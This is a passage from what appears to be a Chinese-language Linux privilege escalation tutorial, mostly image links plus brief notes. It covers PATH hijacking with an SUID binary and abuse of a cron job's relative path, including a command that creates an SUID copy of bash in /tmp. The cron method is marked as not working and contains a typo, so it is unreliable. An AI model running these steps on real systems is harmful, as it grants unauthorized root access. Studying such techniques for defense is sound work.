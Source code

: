 ![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJ9XxwKZ80GJxLQS6mVBBBiawJPCucZSXJzdUCEoiaQILdichj082DmZibvpIFaTZfIp8Fo4Ko0EcM1OMA/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)



![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJ9XxwKZ80GJxLQS6mVBBBiaw0uwrjmJEeHkQYpchictXluUcjJica2kgLrvsFUOHtYpib5UsBWtBJ4bjg/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)

![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJ9XxwKZ80GJxLQS6mVBBBiawDe5HGEfib2wibjwIdEylz653voaxfAT8wDbogtOPIGiaFHicRGbrS6KDfQ/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)



将 /bin目录下的sh复制到/tmp下改名为ps 到/tmp目录下,如果输入ps则执行的是ps命令,而如果输入的是./ps则执行的是sh

![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJ9XxwKZ80GJxLQS6mVBBBiawJnTPYTryJkBEgStwianibcrKicnT5rTdOmn4WdiauU665ScoSmOVDtfnIw/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)

如果现在输入ps,则会直接执行/tmp目录下的ps(实际上是sh)



![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJ9XxwKZ80GJxLQS6mVBBBiawdnvxHQUrv52pjHsTyHc0XsLYibQwVxb38DbrlW7Hl33PSIFSIpBFw8g/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)

![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJ9XxwKZ80GJxLQS6mVBBBiaw6muic1ibG6wV1fQu1g1Rr2y9T6PicTicibicCl0IxrTpg8F1JzHeAx983Iog/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)

![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJ9XxwKZ80GJxLQS6mVBBBiawv7AVdxrQCxpvzQEfIzjdeYaLYhzSowuHHZkASXwwZqap0eSQAibKD0w/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)

ps有suid权限

两个条件:

赋值了suid权限

需要本地用户(如果是webshll权限export PATH=/tmp:PATH执行不了)



Linux提权本地定时任务安全-Aliyun



\#第一种:路径问题(没有实验成功)

利用计划任务指向的文件的相对路径解析问题

- 
- 
- 
- 
- 

```
cat /etc/crontabecho 'cp /bin/basn /tmp/bash;chmod +s /tmp/bash' >/home/xiaodi/test.shchmod +x /home/xiaodi/test.sh/tmp/bash
```

计划任务的test没有写为绝对路径

![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJ9XxwKZ80GJxLQS6mVBBBiaw5EjdDexQIZobBfeGkxvNUhE61eeNgGU90qc2yT2Z0PZ9TRpffAKwLg/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)



计划任务会默认执行在以下目录中的目标文件

![图片](https://mmbiz.qpic.cn/mmbiz_png/cbYIBjX6JJ9XxwKZ80GJxLQS6mVBBBiawwy1FFqlKahUerKAWeddKhAeLicVfmRCtDB7W2EKrAEkiav5JmwyK4vRQ/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1)
